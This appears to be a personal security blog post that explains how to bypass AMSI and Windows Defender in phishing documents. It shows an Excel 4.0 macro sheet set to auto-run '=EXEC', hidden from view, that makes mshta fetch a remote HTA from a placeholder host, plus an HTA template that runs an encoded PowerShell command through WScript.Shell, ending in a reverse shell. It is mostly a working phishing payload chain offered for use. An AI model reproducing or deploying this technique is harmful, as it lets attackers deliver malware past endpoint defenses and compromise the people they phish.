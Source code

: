 ```yaml
---
title: "Phishing AMSI Bypass"
date: 2020-02-25T13:07:25-05:00
draft: false
toc: false
images:
tags:
  - ASMI 
---
```

## How to bypass AMSI (The Simplest Way)

I was looking to run my own phishing campaigns on my current organization and was testing office document payloads.
I tried the old fashioned VBA in the macro running the shell function as well as some others, and defender caught most if not all of them.
Using this tool [Macro-Pack](https://github.com/sevagas/macro_pack) works sometimes but often, it would get flagged or the powershell command would not properly run.
I noticed that most of the issues i was running into was this AMSI popup ![asmi popup](/popup.png)

So i began researching AMSI as i never heard of it. The following resources break down AMSI and bypass options.

* [Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [byte storm](https://medium.com/@byte_St0rm/adventures-in-the-wonderful-world-of-amsi-25d235eb749c)
* [security soup](https://security-soup.net/flawedammyy-rat-excel-4-0-macros/)
* [OutFlank2](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

The first two explain what AMSI is and the last two go into the easier ways to bypass it. Security-Soup broke down how some actors bypassed it using excel 4.0 macros.
Aka really old macros that still work. I used the following link to get more familiar with these macros.[Excel Off The Grid](https://exceloffthegrid.com/using-excel-4-macro-functions/).
I pretty much right clicked my sheet. And clicked Excel 4.0 macro. This creates a new sheet called macro1. If you rename the first cell Auto_open it will run the sheet cell by cell. Dont forget to hide the sheet after this lol. You can run pretty much anything with the following function.
```
=EXEC("cmd.exe")
```
The issue i was running into at this point was not AMSI it was defender flagging certain lolbins like certil for example.
So i decide to look for lolbins that could potentially bypass defender since AMSI was taken care of. I came across a post here on [IronHackers](https://ironhackers.es/en/cheatsheet/comandos-en-windows-para-obtener-shell/)
That pretty much goes through alot of lolbins but what i noticed was they mentioned that. Mshta.exe doesnt get flagged.



So i found an HTA payload which contained some jscript and tried injecting that into my exec function. The macro1 sheet now looks like this

```
=EXEC("mshta.exe http://someip/evil.hta")
```
The HTA file looks like this 
```
<html>
<head>
<HTA:APPLICATION id="hwHTA"
applicationName="hyperHTA"
border="thin"
borderStyle="normal"
caption="yes"
icon="http://www.hyperwrite.com/features/favicon.ico"
maximizeButton="yes"
minimizeButton="yes"
showInTaskbar="no"
windowState="normal"
innerBorder="yes"
navigable="yes"
scroll="auto"
scrollFlat="yes"
singleInstance="yes" 
sysMenu="yes"
contextMenu="yes"
selection="yes" 
version="1.0" />

<script>
a=new ActiveXObject("WScript.Shell");
a.run("powershell -encodedCommand safdjngnrwgnwfn Blah blah blah",0,false);window.close();
</script>

<title>Simple HTML Page</title>

</head>

<body>

<h1>Dummy Page</h1>
<hr>
<p>This is a simple, common or garden variety, normal HTML page. Oh, but saved
with a .HTA extension, and with an &lt;HTA&gt; application block included at the
top of the HTML code. </p>
<p>And to make it interesting, here is a link to the <a href="http://www.aodc.com.au/" target="_top">AODC
Web site</a>.</p>
<p>And why not retrieve the version number out of the HTA:Application properties
using <a href="#" onClick="JavaScript:alert('Version of this HTA is ' + hwHTA.version)">JavaScript</a>.</p>
<p>&nbsp;</p>

</body>

</html>
```

Im not very savy to Jscript or VB so i found this online entered my own powershell encoded command into it.
And to my surprise it did not trigger defender and my reverse shell came in soon after. So with just using an old school method found with soome googling and leveraging mshta.exe you too can bypass defender as well as AMSI to get code execution.


## How to bypass AMSI (The Harder Way)
### but its more flexible and in depth
===> [Hoang Bui's Blog](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)

## Coming soon
### MacOS phishing tactics